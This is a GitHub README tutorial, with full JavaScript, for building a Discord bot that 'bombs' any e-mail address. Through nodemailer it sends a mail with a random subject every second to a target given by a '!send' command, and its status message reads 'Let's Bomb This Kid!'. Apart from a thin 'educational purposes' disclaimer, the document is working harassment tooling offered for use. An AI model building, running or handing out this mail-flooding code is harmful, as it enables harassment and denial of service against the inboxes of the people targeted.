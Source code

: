 # Discord Bot E-mail Bomber
## Warning!
By using this bot source you're breaking the Discord's TOS,      
I'm not responsible for any illegal use of this source code.  
All you will find below is for educational purposes  
By copying anything you'll find below, you are confirming that you read this.  
*Use this at your own risk*  
*Please do not edit the credits!*

## Description
With this bot, you can bomb any mail address by running a simple command.  
The E-mail object will be randomized in all new mails, so there is not any chance that a new mail is a reply to the first.  
All this complex system is activated by the simple command !send mail@mail.com.  

## Installing
First, we need to install [Nodemailer](https://nodemailer.com/about/) through npm  
```bash
npm install nodemailer --save
```

## Starting
Now we need to declare nodemailer at the bottom of our code and a boolean called "spamming" that will be used later
```javascript
const Discord = require('discord.js');
const client = new Discord.Client();
const prefix = "!"
const nodemailer = require("nodemailer");
var spamming;
```

## Client On Message
It's time to start coding, you can find the whole code in index.js or follow this guide to create your own.  
Now let's just create the var args and command.  
```javascript
client.on('message', async msg => {
    var args = msg.content.split(' ').slice(1);
    var command = msg.content.toLowerCase().slice(prefix.length).split(' ')[0];
    if(msg.author.bot) return;
 ```
## Send Command
We need to make our "send" command and create our character generator.

```javascript    
if (command === 'send') {
  if (spamming == true) return msg.reply("A mail bombing is already active! Please use '!stop' before a new attack"); //Check if the spamming variable is true

    if (!args[0]) 
        return  msg.reply("You need to insert a mail target!"); //If email is not specified, you get this reply message.

        
        function randomLetters(length) { //Here you create your random letters and number function.
          var text = "";
          var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
          for (var i = 0; i < length; i++)
            text += possible.charAt(Math.floor(Math.random() * possible.length));
             return text;
          }

       
          
        var mailto = args[0] //the variable mailto will be the arg[0] (the target e-mail)
        var mailtxt = (randomLetters(10)) //The mail's text will be 10 random letters and numbers choosed by the var "possible"
 ```
        
##  SMTP Server Connection
Now let's create the connection with the smtp server
```javascript
        let transporter = nodemailer.createTransport({
            host: "server", //smtp server
            port: 25,
            secure: false, // true for 465, false for other ports
            auth: {
              user: 'mail', 
              pass: 'password' 
            }
          });
```
##  E-Mail Config
And the config file
```javascript
let mailOptions = {
            from: '"Name" <e-mail>', // sender address
            to: mailto, // list of receivers, in this case, the "mailto" variable
            subject: (randomLetters(8)), // Subject is made by 8 random characters
            text: mailtxt, // text body, made from mailtxt variable
            html: "<b>" + mailtxt + "</b>" // html body
          };
```
##  Spamming Process
This is how you make the bot start spamming

```javascript
async function sendMail() {
          let info = await transporter.sendMail(mailOptions) //You load the mail options
          spamming = true; //You set the variable "spamming" to true, when it's on true, you can't launch other attacks
          }
          

            const spammingMessage = setInterval(() => { //You make a loop of the command, so it spams over and over
              var mailto = args[0]
                  mailOptions.subject = (randomLetters(8)) //You change the mail object, so it's everytime a new email and not a reply to the first one
                  var mailtxt = (randomLetters(10))
          
                      sendMail();
                      
                  }, 1000);

        msg.channel.send({embed: { //You create an embed with all the informations
            color: 3447003,
            author: {
              name: client.user.username,
              icon_url: client.user.avatarURL
            },
            title: "Bombing",
            description: "Bot Developed By Mental#1424",
            fields: [{
                name: "Let's Bomb This Kid!",
                value: "Bombing In Progress..."
              },
            {
                name: "Target Mail",
                value: mailto,
              },

            ],
            timestamp: new Date(),
            footer: {
              icon_url: client.user.avatarURL,
              text: "© Discord Mail Bomber"
            }
            
            
          }
          
        });
      }
```
##  Stopping The bombing
The stop command:
```javascript 
if(command === "stop") { //Stop the mail bombing
        if (spamming == false) return msg.reply("There isn't any active bombing!") //if you are not spamming, you can't stop the mail bombing.
        msg.channel.send("Stopped! Bot Shutdown")
        client.destroy() //The bot shut down
    }
```
##  Credits and info
All the informations about the bot:
```javascript
    if(command === "info") { //Please do not edit this
      msg.channel.send({embed: {
          color: 3447003,
          author: {
            name: client.user.username,
            icon_url: client.user.avatarURL
          },
          title: "Info",
          description: 'Bot developed by Mental#1424'+'\n'+'Special Thanks To: ' + 'Exploit#1337',
          fields: [{
              name: "Find Me On Github!",
              value: "[Click This](https://github.com/MyNameIsMental)"
            },
           {
              name: "The bot is open source on github!",
              value: "[Click This](https://github.com/MyNameIsMental/discord-email-bombing)"
            },

          {
              name: "Command Sytax",
              value: "!send targetmail@targetmail.com text"
            },

            {
              name: "Stop",
              value: "Use !stop for stopping the mail bombing"
            }
          ],
          timestamp: new Date(),
          footer: {
            icon_url: client.user.avatarURL,
            text: "© Discord Mail Bomber"
          }
        }
      })
        };

    }) 
    ```
